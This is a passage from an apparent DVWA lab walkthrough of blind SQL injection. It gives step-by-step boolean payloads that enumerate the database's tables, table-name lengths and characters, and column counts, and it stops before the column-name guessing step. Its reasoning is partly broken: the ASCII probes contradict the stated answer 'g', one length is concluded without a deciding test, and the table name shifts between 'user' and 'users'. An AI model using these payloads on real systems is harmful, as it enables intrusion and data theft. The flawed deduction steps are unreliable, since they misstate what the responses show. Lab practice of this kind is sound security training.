4. Find the total number of tables in db 'dvwa'.

   - Input `1' and (select count(table_name) from information_schema.tables where table_schema=database())>4`, return `MISSING`.
   - Input `1' and (select count(table_name) from information_schema.tables where table_schema=database())>2`, return `MISSING`.
   - Input `1' and (select count(table_name) from information_schema.tables where table_schema=database())>1`, return `exists`.

   Therefore, there are 2 tables in db 'dvwa'.

5. Find the length of each table_name.
   Take the 1^st^ table for example:

   - Input `1' and length(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1))>8`, return `exists`.
   - Input `1' and length(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1))>10`, return `MISSING`.

   Thus, len(table_name_1) = 9. And it's the same for table 2.

   We can find the length of table_names are 9 and 4, respectively.

6. Find the names of each table.
   Take the 1^st^ char of the 1^st^ table_name for example:

   - Input `1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))>96`, return `exists`.
   - Input `1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))>123`, return `MISSING`.

   When input `1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))=123`, return `exsists`.

   Thus, the 1^st^ char of the 1^st^ table_name is 'g'.

   Follow the same process, we can find the table_names are 'guestbook' and 'users'.

7. Find the number of columns in table 'user'.

   - Input `1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>8`, return `MISSING`.
   - Input `1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>4`, return `exists`.
   - Input `1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>6`, return `exists`.
   - Input `1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>7`, return `exists`.

   Thus, there are 8 columns in table 'user'.

8. Guess the name of column which store 'username' and 'password'.

   - A column that stores information of user name is often named as 'username/user_name/uname/u_name/user/name/...'
   - A column that stores information of password is often named as 'password/pass_word/pwd/pass/...'

   We can use following input to check that whether there exists a column which has the given name:
